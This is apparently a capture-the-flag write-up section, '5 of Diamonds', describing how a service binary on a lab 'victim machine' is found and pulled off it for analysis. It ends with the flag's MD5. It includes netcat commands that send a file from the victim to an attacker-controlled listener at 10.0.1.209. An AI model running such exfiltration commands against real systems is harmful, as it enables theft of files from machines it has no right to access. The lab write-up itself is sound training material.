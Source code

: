 ## 5 of Diamonds

Among services running on the victim machine, one is listening on local port 8989, the service name is "five_of_diamonds" located in the /opt/knock_knock/ folder.
Trying to investigate more with nc or wget give us some trouble so, downloading it for further investigation, probably can helps.

To do so we need nc

on the kali box we run
```
nc -lvp 6666 > five_of_diamonds
```
in the meantime on the victim machine

```
nc 10.0.1.209 6666 < five_of_diamonds
```

once the binary is downloaded we can run it locally for further analysis.

The service is listening on the port 8989 as expected. Browsing to 127.0.0.1:8989 bring us to a juicy flag

![img1](./img/img1.png)

```
MD5 = 97bf04578c58062c1440f17668f6017b  

```


